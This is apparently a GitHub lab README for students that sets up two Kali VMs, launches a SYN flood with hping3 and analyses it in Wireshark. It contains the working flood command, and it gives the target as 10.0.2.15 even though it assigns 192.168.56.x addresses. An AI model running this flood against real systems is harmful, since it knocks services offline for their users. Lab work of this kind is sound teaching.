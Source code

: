 # 🔍 SYN Flood Attack Simulation & Analysis with Wireshark (Educational Purpose)

> **⚠️ Disclaimer:** This simulation is strictly for **educational use only** in a fully controlled lab environment. Unauthorized or malicious use is **illegal** and **unethical**.

---

## 🎯 Objective

Simulate a SYN flood attack using one Kali Linux VM (Attacker) on another Kali Linux VM (Victim), and analyze the attack using Wireshark to understand the network behavior of a TCP SYN flood.

---

## 🧰 Environment Setup

- **Host OS**: Any (with VirtualBox installed)
- **VM 1 (Attacker)**: Kali Linux
- **VM 2 (Victim)**: Kali Linux
- **Virtual Network Mode**: NAT Network with static IP addresses assigned

---

## 🔌 VirtualBox Network Configuration & IP Setup

### For Both VMs:

1. Go to `Settings` → `Network`
2. Adapter 1 → Attached to: **NAT Network** (or your configured NAT) ![image](https://github.com/user-attachments/assets/bd9730bf-e9d4-48e6-ab1a-e449d2753eba)
   * If you don't have Nat Network, go to File -> Tools -> Network Manager
   * ![image](https://github.com/user-attachments/assets/bc560c40-6c65-418b-8333-6edd9baef45f)
   * ![image](https://github.com/user-attachments/assets/258c369e-3615-4509-ad65-eb180c0de2d3)


3. Set static IP addresses on each VM manually:

---

### Set Static IP on Attacker (Kali):

Open terminal on attacker and run:

```bash
sudo ip addr flush dev eth0
sudo ip addr add 192.168.56.10/24 dev eth0
sudo ip link set dev eth0 up
```
Set Static IP on Victim (Kali):
Open terminal on victim and run:
```bash
sudo ip addr flush dev eth0
sudo ip addr add 192.168.56.11/24 dev eth0
sudo ip link set dev eth0 up
```
Verify Connectivity
From attacker, ping victim:
```bash
ping 10.0.2.15
```
![1](https://github.com/user-attachments/assets/fafe039b-40dc-4e2c-a585-b5ba62c63eb1)

Expect replies to confirm network setup.

---
### 🧪 Preparation
On Kali (Victim):
Install necessary tools and run a TCP listener:
```bash
sudo apt update
sudo apt install net-tools netcat wireshark -y
sudo nc -l -p 80
```
On Kali (Attacker):
Install hping3 and Wireshark:
```bash
sudo apt update
sudo apt install hping3 wireshark -y
```

---

### ⚔️ Launch the SYN Flood Attack
On Kali (Attacker):
Run SYN flood targeting victim:
```bash
sudo hping3 -S --flood -V -p 80 10.0.2.15
```
```-S```: Send SYN packets

```--flood```: Send packets as fast as possible

```-V```: Verbose output

```-p 80```: Target port 80 (same as victim listener)

```10.0.2.15```: Victim static IP

---

### 📈 Analyze with Wireshark
On Kali (Victim):
1. Launch Wireshark with root or sudo:
```bash
sudo wireshark
```
2. Select interface eth0 or whichever corresponds to your network.

3. Start packet capture.

4. Apply this display filter to see SYN flood traffic:
 ```bash
   tcp.flags.syn == 1 and tcp.flags.ack == 0
   ```
5. Observe:

- Large burst of SYN packets flooding in rapidly.

- No complete TCP handshake (no matching ACKs).

- Many half-open connections visible.

---

### 🧠 How to Confirm the Server is Flooded and Down

System Load: CPU will be full and unresponsive. A huge number of packet will be visible in wireshark. 
May see increased load due to handling many half-open connections.

![Screenshot (4)](https://github.com/user-attachments/assets/838efa13-2a1a-440a-9ade-0d633415c532)

---

### 🧼 Clean Up
Stop the attack on attacker with CTRL+C

Stop Wireshark capture and save the .pcap file if desired

Power off both VMs or reset IP settings if needed

### 📛 Legal Warning
Performing SYN flood attacks outside of an isolated, authorized lab environment is prohibited by law. This guide is intended only for cybersecurity students and professionals studying in ethical, simulated environments.

---

### 👨‍🎓 Author
Nahid Chowdhury, University of Dhaka
Contact: cyberxpertme@gmail.com






